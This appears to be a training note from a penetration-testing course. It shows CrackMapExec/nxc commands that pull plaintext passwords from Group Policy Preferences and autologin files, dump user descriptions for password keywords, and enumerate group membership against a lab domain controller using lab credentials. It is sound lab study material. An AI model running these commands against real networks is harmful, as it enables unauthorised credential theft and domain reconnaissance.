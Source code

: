 
# Searching for Accounts in Group Policy Objects
Searching for credentials written in the Group Policy Objects (GPO) can pay off, especially in an old environment (Windows server 2003 / 2008) since every domain user can read the GPOs.

We can use the modules `gpp_password` and `gpp_autologin`. The first module, `gpp_password`, retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences (GPP). We can read more about this attack in this blog post Finding Passwords in SYSVOL & Exploiting Group Policy Preferences, and the second module, `gpp_autologin`, searches the Domain Controller for `registry.xml` files to find autologin information and returns the username and clear text password if present.

Reference: https://adsecurity.org/?p=2288

## Password GPP
```
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M gpp_password
```

## AutoLogin GPP
```
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M gpp_autologin
```

# Working with Modules
We can run `crackmapexec <protocol> -L` to view available modules for the specified protocol.

> Note: Keep in mind that LDAP protocol communications won't work if we can't resolve the domain FQDN. If we are not connecting to the domain DNS servers, we need to configure the FQDN in the `/etc/hosts` file. Configure the **target IP to the FQDN `dc01.inlanefreight.htb`**.

## Identifying Options in Modules
To view a module's supported options, we can use the following syntax: `crackmapexec <protocol> -M <module_name> --options`

### Looking at the Source Code of the user-desc Module
The LDAP module user-desc will query all users in the Active Directory domain and retrieve their descriptions, it will only display the user's descriptions that match the default keywords, but it will save all descriptions in a file. Default keywords are not provided in the description. If we want to know what those keywords are, we need to look at the source code. We can find the source code in the directory `CrackMapExec/cme/modules/`. Then we can look for the module name and open it. In our case, the Python script that contains the module `user-desc` is `user_description.py`. Let's grep the file to find the word keywords:
```
cat CrackMapExec/cme/modules/user_description.py |grep keywords
```

- **Retrieve User Description Using user-desc Module**
```
crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! -M user-desc
```
```
nxc ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! -M user-desc
```
- **Opening File with All Descriptions**
```
cat /home/plaintext/.cme/logs/UserDesc-10.129.203.121-20221031_120444.log
```
- **Using a Module with Options**
```
crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! -M user-desc -o KEYWORDS=pwd,admin
```
### Querying User Membership
`groupmembership` is another example of a module created during this training by an HTB Academy training developer, which allows us to query the groups to which a user belongs (we will discuss how to create your own modules later). To use it, we need to specify the user we want to query with the option USER.
```
cd CrackMapExec/cme/modules/
wget https://raw.githubusercontent.com/Porchetta-Industries/CrackMapExec/7d1e0fdaaf94b706155699223f984b6f9853fae4/cme/modules/groupmembership.py -q
crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! -M groupmembership -o USER=julio
````

# MSSQL Enumeration and Attacks



















